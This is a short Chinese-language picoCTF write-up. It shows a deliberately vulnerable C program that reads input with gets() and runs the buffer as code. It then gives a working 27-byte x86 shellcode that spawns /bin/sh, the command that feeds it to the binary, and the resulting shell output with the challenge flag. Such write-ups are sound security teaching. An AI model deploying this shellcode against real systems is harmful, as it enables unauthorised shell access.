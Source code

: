 ## Source code
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();

  return 0;
}
```

題目最後把 `buf` cast 成一個 `void (*)()` 的 function pointer ，然後直接 invoke 它

也就是把我們放入 `buf` 的東西直接當作 machine code 來執行。

## Pwn
題目給了我們 148 bytes 的空間塞 shellcode，而且還是用 `gets()` ...

不過寫完下面這段也才 27 bytes，綽綽有餘 d(`･∀･)b

```
[global _start]
  
_start:
  jmp ed

st:
  ; execve(const char *filename, const char * const argv[], const char * const envp[])
  pop ebx
  xor eax, eax
  add al, 0xb
  xor ecx, ecx
  xor edx, edx
  int 0x80
  ret
 
ed:
  call st
  db "/bin/sh", 0
```

用我的 Makefile 生成 shell.bin 以後，scp 上傳之，然後到題目 server 執行下列指令
```
$ (cat /tmp/aesophor/shell.bin; cat -) | ./vuln
Enter a string!


[1
  11/bin/sh
Thanks! Executing now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{shellc0de_w00h00_9ee0edd0}
```

flag: `picoCTF{shellc0de_w00h00_9ee0edd0}`
